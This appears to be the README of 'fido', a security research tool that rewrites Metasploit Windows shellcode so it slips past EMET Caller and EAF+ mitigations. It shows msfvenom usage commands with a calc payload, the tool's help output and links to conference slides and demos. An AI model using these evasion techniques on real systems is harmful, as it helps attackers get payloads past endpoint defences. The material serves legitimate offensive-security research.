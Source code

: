 # fido
Teaching an old shellcode new tricks

Give fido.py a x86 (32 bit) windows shellcode and it will strip off Stephen Fewer's hash API stub and replace it 
with something that bypasses EMET Caller and EAF+ checks but keeps the actual API calls in use.

# WARNING: If the 2nd stage payload uses the hash api from metasploit that loads Win APIs from the Export Address Table and jmp's into them, EMET will catch it.

If the warning didn't make sense, you might want to walk away or read up: 

* REcon BR Slides: https://github.com/secretsquirrel/fido/blob/master/REconBR_2017.pdf
* Demo1 (Hash Mangling POC): https://youtu.be/p3vFRx5dur0
* Demo2 (Tor Exploit POC): https://youtu.be/oqHT6Ienudg

## Usage

Can take input from stdout and output to stdout:
```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/testharness.py -m -b Tcpview.exe -p ExternGPA -t win10  > test.bin
```

Can take input from cmdline (via -s).

Want win7-win10 compatibility?  Use the following command:

```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/fido.py -p ExternGPA -l api-ms-win-core-libraryloader-l1-1-0.dll -d kernel32.dll > test.bin
```

This will use GetProcAddress in api-ms-win-core-libraryloader-l1-1-0.dll import from the kernel32.dll loaded module. 


Help output:

```
[!] -s is required either from cmd line flag or stdin <cat code.bin> | ./fido.py
usage: use "fido.py --help" for more information

This code imports metasploit sourced x86 windows shellcode that employs
Stephen Fewers Hash API stub and replaces it to bypass EMET Caller/EAF checks
and other bolt on mitigations. Accepts msfvenom output from stdin or from disk.
Doesn't do logic checks on provided payload to ensure it is x86 (32bit) or for windows
OS (up to you to be correct)

positional arguments:
  infile
  outfile

optional arguments:
  -h, --help            show this help message and exit
  -b TARGETBINARY, --targetbinary TARGETBINARY
                        Binary that shellcode will be customized to (Optional)
  -t OS, --OSTarget OS  OS target for looking for target DLL Import Tables: winXP, win7, win8, winVista, win10
  -s CODE, --shellcode CODE
                        x86/x64 Windows Shellcode with Stephen Fewers Hash API prepended (from msfvenom) can be from stdin
  -d DLL, --DLLName DLL
                        If you know the DLL in the IAT you are targeting enter this, no need for OS flag.
  -l IMPORTNAME, --Import IMPORTNAME
                        For use with -d and ExternGPA (-p), specify either 'kernel32.dll' or
                        'api-ms-win-core-libraryloader' -- you need to know with import you are targeting.
                        To know, run without -d for a list of candidates. Default is kernel32.dll but not always right!

  -m, --mangle          Mangle metasploit hash apis from their original values (you want to do this)
  -o OUTPUT, --output OUTPUT
                        How you would like your output: [c], [p]ython, c[s]harp Default: stdout.
  -p PARSER_STUB, --parser_stub PARSER_STUB
                        By default this assumes that GetProcAddress (GPA) is in the targetbinary's
                        Import Address Table (IAT) if no targetbinary or DLL name is provided.
                        Four options:
                            GPA  - GPA is in targetbinary IAT (default)
                            LLAGPA - LoadlibraryA(LLA)/GPA is in the targetbinary IAT (smallest shellcode option)
                            ExternGPA -- need DLLName or targetbinary to use
                            ExternLLAGPA -- need DLLName or targetbinary to use
                            ExternGPAFC -- -d kernel32.dll -l kernelbase.dll  # only works on win8 - win10
                            OffsetGPA -- -b target.EXE # static offset to that version of software (target EXE)
                            ExternOffsetGPA -- -b target.DLL -d import_dll # static
  -n, --donotfail       Default: Fail if Stephen Fewers Hash API stub is not there, use -n to bypass
  -M MODE, --mode MODE ASM mode 32 or 64, usually automatic
```






